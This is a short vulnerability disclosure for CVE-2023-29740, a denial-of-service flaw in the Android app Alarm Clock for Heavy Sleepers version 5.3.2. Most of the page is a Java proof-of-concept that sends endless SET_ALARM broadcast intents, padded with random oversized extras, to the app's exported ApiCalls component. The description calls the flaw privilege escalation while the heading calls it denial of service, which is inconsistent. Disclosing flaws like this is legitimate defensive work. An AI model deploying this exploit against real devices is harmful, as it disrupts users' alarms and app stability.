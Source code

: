 ## Denial of Service exists in Alarm Clock for Heavy Sleepers（CVE-2023-29740）

Vendor：Smart Alarm Clock Team(http://amdroidapp.com/)

Affected product：Alarm Clock for Heavy Sleepers(com.amdroidalarmclock.amdroid)

Version：5.3.2

Download link： https://play.google.com/store/apps/details?id=com.amdroidalarmclock.amdroid

Description of the vulnerability for use in the CVE：An issue found in Alarm Clock for Heavy Sleepers v.5.3.2 for Android allows unauthorized apps to cause escalation of privilege attacks by manipulating the component.



poc：

```java
private void attack() {
    while (true) {
        Intent intent = new Intent();
        ComponentName componentName = new ComponentName("com.amdroidalarmclock.amdroid", "com.amdroidalarmclock.amdroid.ApiCalls");
        intent.setComponent(componentName);
        intent.setAction("android.intent.action.SET_ALARM");
        Random random = new Random();
        int legnth = random.nextInt(102400);
        String randomString =getRandomString(legnth);
        intent.setClassName("com.amdroidalarmclock.amdroid","com.amdroidalarmclock.amdroid.ApiCalls");
        intent.putExtra("android.intent.extra.alarm.HOUR",11);
        intent.putExtra("android.intent.extra.alarm.MINUTES",30);
        intent.putExtra("android.intent.extra.alarm.MESSAGE","this is hack's message!");
        ArrayList<Integer> list=new ArrayList<>();
        list.add(0);
        list.add(1);
        list.add(0);
        list.add(1);
        list.add(0);
        list.add(1);
        list.add(0);
        intent.putIntegerArrayListExtra("android.intent.extra.alarm.DAYS", list);
        intent.putExtra(randomString,randomString);
        try {
            System.out.println("发送数据");
            sendBroadcast(intent);
        } catch (Exception e) {
        }
    }
}
```



